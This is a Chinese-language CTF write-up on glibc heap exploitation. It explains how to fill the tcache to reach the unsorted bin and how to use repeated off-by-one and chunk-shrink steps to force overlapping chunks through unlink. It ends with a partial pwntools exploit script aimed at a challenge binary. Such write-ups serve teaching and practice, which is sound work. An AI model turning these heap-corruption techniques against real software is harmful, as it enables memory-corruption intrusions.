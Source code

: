 `tcache`直观的影响是增加了某些情况下我们将`chunk`放入`unsortedbin`的难度
tcache里完成这个操作主要有两个方法
* free一个较大的chunk(>0x408)
* 填满tcache(7个)

因为上述第二步中有需要进入`unsorted bin`所以:
加上我们使用free一个较大chunk的方法,那么我们如果要让exp顺利工作需要做的事情:
在做这一步之前把heap给布局好因为如果没有布局完成那么之后malloc时会在unsorted bin中切割
在这个题目list内节点数目有限的情况下这个复杂度有点高.

所以使用第二种方法free()*7第八个就会被放入unsorted bin.
相比前一种方法的优点就是不用思考地那么远,只要在之后的操作中不要把`unsortedbin`破坏了就可以了
但是我们需要另一个free进`unsorted bin`的chunk来trigger `unlink`.
比较优雅的做法是在一开始就设定好,这题就比较尴尬因为list内一共只有7个节点如果满了再去增加会做malloc+free的操作但是实践中发现还是很烦啦...
于是我曲线救国不优雅就不优雅吧


也就是在比较遥远的地方构造以下情形
```
chunk n:   size=0x20,data="\x00"*0x10+magic
chunk n+1: size=0x500,data=....
```
这样通过free第n+1个chunk和伪造他的pre_size和pre_inuse 和之前我们构造的unsortedbin内的chunk unlink完成overlap.
简单易懂，就是不太优雅比之前在2.23上多了一次利用`OFF_BY_ONE`


总而言之,通过两次`OFF_BY_ONE+shrink`完成在`node`有限情况下做`overlap`
exp 如下.
```python
from pwn import *
def cmd(c):
	p.sendlineafter(":\n",str(c))
def add(size,c="A\n"):
	cmd(1)
	p.sendlineafter(": \n",str(size))
	p.sendafter(": \n",c)
def cheat(size):
	cmd(1)
	p.sendlineafter(": \n",str(size))
def free(idx):
	cmd(2)
	p.sendlineafter(": \n",str(idx))
def show():
	cmd(3)

p=process('./timu')
#p=remote("111.198.29.45",34670)
add(0x500)#0
add(0x100)#1
add(0x100)#2
free(0)
context.log_level='debug'
add(0x18,"A"*0x18)
free(0)

add(0x100)#0
add(0x100)#3

add(0x1e8-0x10)#4
free(4)
add(0x100)#4
add(0x100)#5
add(0x100)#6
cheat(0x100)
for x in range(1,7):
	free(x)

```